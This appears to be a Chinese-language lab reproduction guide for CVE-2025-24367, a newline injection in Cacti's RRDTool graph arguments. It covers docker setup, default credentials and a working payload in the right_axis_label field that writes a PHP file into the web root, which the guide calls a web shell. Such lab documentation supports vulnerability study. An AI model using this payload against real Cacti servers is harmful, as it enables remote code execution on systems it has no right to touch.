 # Cacti RRDTool后台参数注入导致远程代码执行 (CVE-2025-24367)

Cacti是一款利用RRDTool数据存储和图形化功能的完整网络图形化解决方案。在Cacti 1.2.28及以前版本中存在一个命令注入漏洞，该漏洞允许已认证用户在Web服务器上创建任意PHP文件，从而可能导致远程代码执行。

此漏洞出现在图形模板功能中，用户输入的RRDTool命令参数，如`--right-axis-label`，未被正确过滤。虽然Cacti尝试使用`cacti_escapeshellarg()`函数转义shell元字符，但它未能处理换行符。这允许攻击者突破预期的命令上下文并注入其他RRDTool命令，最终能够向Web根目录写入恶意PHP文件。

参考链接：

- <https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq>
- <https://github.com/Cacti/cacti/commit/c7e4ee798d263a3209ae6e7ba182c7b65284d8f0>

## 环境搭建

执行如下命令启动Cacti 1.2.28：

```
docker compose up -d
```

服务启动后，访问http://your-ip:8080即可看到Cacti的登录界面，默认用户名密码为admin/admin。

你需要登录并按照初始化指引操作，只需点击"Next"按钮直到看到成功页面即可。

## 漏洞复现

首先，需要登录Cacti。在Cacti控制台，导航至"Console → Templates → Graph"，找到"PING - Advanced Ping"模板并编辑它。捕获这个编辑请求，然后修改`right_axis_label`参数为以下payload（请注意换行符`%0a`）：

```
XXX
create my.rrd --step 300 DS:temp:GAUGE:600:-273:5000 RRA:AVERAGE:0.5:1:1200
graph vulhub.php -s now -a CSV DEF:out=my.rrd:temp:AVERAGE LINE1:out:<?=phpinfo();?>
```

![](1.png)

然后，来到"Console → Create → New Graphs"，使用"PING - Advanced Ping"模板创建一个新图表：

![](2.png)

之后，来到"Graphs → Default Tree → Local Linux Machine"来触发payload执行。

![](3.png)

你会看到一个带有"Error: creating arguments"错误消息的图像，这意味着payload已被执行。

命令执行后，payload将在Cacti的Web根目录创建两个文件：一个RRD文件(my.rrd)和一个PHP网页shell(vulhub.php)：

![](4.png)
